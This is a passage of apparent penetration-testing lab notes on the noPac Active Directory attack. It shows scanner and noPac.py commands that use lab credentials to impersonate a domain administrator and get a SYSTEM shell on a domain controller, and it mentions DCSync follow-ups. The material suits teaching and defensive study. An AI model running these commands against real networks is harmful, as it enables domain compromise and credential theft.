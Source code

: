 ### **🛑 Step 2: Inject and Use the TGS**

- We **inject the TGS into our session** (using Mimikatz or Rubeus).
- Now, when we connect to **services running on the real DC**, the DC **decrypts the ticket with its own NTLM hash** and trusts us as `DC01$`.

👉 **We are now authenticated as the Domain Controller itself!**


---

using a scanner (`scanner.py`) then use the exploit (`noPac.py`) to gain a shell as `NT AUTHORITY/SYSTEM`. We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable. We'll also notice the `ms-DS-MachineAccountQuota` number is set to 10. In some environments, an astute sysadmin may set the `ms-DS-MachineAccountQuota` value to 0. If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to `0` can prevent quite a few AD attacks.


#### Scanning for NoPac
```bash
AhmaDb0x@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
```

obtain a shell with SYSTEM level privileges. We can do this by running noPac.py with the syntax below to impersonate the built-in administrator account and drop into a semi-interactive shell session on the target Domain Controller. This could be "noisy" or may be blocked by AV or EDR.

```bash
AhmaDb0x@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

```shell-session
Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
```

NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use `ls` to confirm.

We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync. We can also use the tool with the `-dump` flag to perform a DCSync using secretsdump.py. This method would still create a ccache file on disk, which we would want to be aware of and clean up.

#### Using noPac to DCSync the Built-in Administrator Account
